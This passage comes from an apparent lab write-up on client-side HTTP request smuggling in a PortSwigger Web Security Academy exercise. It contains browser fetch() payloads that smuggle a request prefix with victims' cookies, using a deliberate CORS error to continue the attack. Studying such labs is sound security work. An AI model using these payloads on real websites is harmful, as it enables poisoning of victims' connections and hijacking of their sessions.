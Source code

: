 By setting the `mode: 'cors'` option for the initial request, you can intentionally trigger a CORS error, which prevents the browser from following the redirect. You can then resume the attack sequence by invoking `catch()` instead of `then()`. For example:

```js
fetch('https://vulnerable-website.com/redirect-me', {
    method: 'POST',
    body: 'GET /hopefully404 HTTP/1.1\r\nFoo: x',
    mode: 'cors',
    credentials: 'include'
}).catch(() => {
    location = 'https://vulnerable-website.com/'
})
```

The downside to this approach is that you won’t be able to see the connection ID on the **Network** tab, which may make troubleshooting more difficult.

**Armed with above information, we can start to build a proof of concept in a browser.**

- **Open a separate instance of browser, go to the exploit server for simulating victim on a different domain, and the “Persist Logs” option is selected:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-21/images/Pasted%20image%2020230226164848.png)

- Switch to the **Console** tab and use `fetch()` to replicate the desync probe you tested in Burp:

**Browser testing payload:**
```js
fetch('https://0a4c002e03e58448c00fdcfe00e90072.h1-web-security-academy.net/%2e%2e%2f', {
    method: 'POST',
    body: 'GET /404pls HTTP/1.1\r\nX-Foo: x', // malicious prefix
    mode: 'cors', // ensures the connection ID is visible on the Network tab
    credentials: 'include' // poisons the "with-cookies" connection pool
}).catch(() => {
        fetch('https://0a4c002e03e58448c00fdcfe00e90072.h1-web-security-academy.net', {
        mode: 'no-cors',
        credentials: 'include'
    })
})
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-21/images/Pasted%20image%2020230226165342.png)

> Note: we’re intentionally triggering a CORS error to prevent the browser from following the redirect, then using the `catch()` method to continue the attack sequence.
>  
> Also, browsers will normalize the path, so you'll need to URL encode the characters for your traversal sequence: `/%2e%2e%2f`.

On the **Network** tab, you should see two requests:

- The main request, which has triggered a 500 response:

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Portswigger-Labs/HTTP-Request-Smuggling/Smuggling-21/images/Pasted%20image%2020230226165352.png)
